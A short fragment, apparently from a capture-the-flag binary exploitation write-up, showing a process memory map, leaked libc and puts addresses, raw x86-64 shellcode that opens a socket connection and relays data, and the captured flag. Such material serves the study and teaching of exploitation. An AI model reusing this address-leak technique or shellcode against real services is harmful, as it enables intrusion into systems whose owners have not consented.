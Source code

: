 ```bash
    7f8b72e04000-7f8b72e5c000 r--p 001bd000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72e5c000-7f8b72e60000 r--p 00214000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72e60000-7f8b72e62000 rw-p 00218000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72e62000-7f8b72e6f000 rw-p 00000000 00:00 0
    7f8b72e71000-7f8b72e73000 rw-p 00000000 00:00 0
    7f8b72e73000-7f8b72e75000 r--p 00000000 08:01 22554596                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72e75000-7f8b72e9f000 r-xp 00002000 08:01 22554596                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72e9f000-7f8b72eaa000 r--p 0002c000 08:01 22554596                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72eab000-7f8b72ead000 r--p 00037000 08:01 22554596/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72ead000-7f8b72eaf000 rw-p 00039000 08:01 22554596/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7ffc5d268000-7ffc5d289000 rw-p 00000000 00:00 0[stack]
    7ffc5d35b000-7ffc5d35f000 r--p 00000000 00:00 0                          [vvar]
    7ffc5d35f000-7ffc5d361000 r-xp 0000000000:00 0                          [vdso]
[+] Libc Base address: 0x7f8b72c47000
[+] Puts Address: 0x7f8b72cc7e50
[*] Shellcode = b'H1\xc0\xb0)H1\xff@\xb7\x02H1\xf6@\xb6\x01H1\xd2\x0f\x05I\x89\xc0H1\xc0\xb0*L\x89\xc7H\xc7\xc6\xff\xff\xff\xffI\xb9\xfd\xff\xdd\xc2\x80\xff\xff\xfeL)\xceVH\x89\xe6H1\xd2\xb2\x10\x0f\x05M1\xc9fA\xb9\x87\x87AQH1\xc0\xb0\x01L\x89\xc7H\x89\xe6H1\xd2\xb2\xa4\x0f\x05H1\xc0L\x89\xc7H\x89\xe6H1\xd2f\xba\x04\x01\x0f\x05H1\xc0\xb0\x01H1\xff@\xb7\x01H\x89\xe6H1\xd2\xb2@\x0f\x05'
[+] Done
[*] Switching to interactive mode
\x00\x00\x00\x00flag{why_d0_y0u_KnoM_tH1s_c0WW@nd!?}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$
```

Flag: `flag{why_d0_y0u_KnoM_tH1s_c0WW@nd!?}`
